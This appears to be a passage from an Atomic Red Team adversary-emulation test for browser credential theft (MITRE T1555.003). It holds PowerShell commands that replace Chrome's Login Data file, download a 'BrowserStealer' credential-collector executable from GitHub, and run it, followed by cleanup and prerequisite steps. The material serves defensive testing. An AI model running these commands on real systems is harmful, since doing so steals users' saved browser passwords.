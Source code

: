 




#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads" > $null
Remove-Item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" > $null
Copy-Item "$env:PathToAtomicsFolder\T1555.003\src\Login Data" -Destination "$env:localappdata\Google\Chrome\User Data\Default\" > $null
cd "$env:PathToAtomicsFolder\T1555.003\bin"
.\BrowserCollector.exe
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" > $null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads" -Destination "$env:localappdata\Google\Chrome\User Data\Default\Login Data" > $null
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\Login Data" > $null
```



#### Dependencies:  Run with `powershell`!
##### Description: Google Chrome must be on the device.
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```
##### Description: BrowserCollector must exist in the bin directory
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1555.003\bin\BrowserCollector.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1555.003\bin\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/SaulBerrenson/BrowserStealer/releases/download/1.0.0.4/BrowserCollector_x64.exe" -Outfile: "PathToAtomicsFolder\T1555.003\bin\BrowserCollector.exe"
```
##### Description: Login Data file that is a copy of a chrome Login Data that contains credentials for the tool to "steal." Must exist at the specified path.
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1555.003\src\Login Data") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
```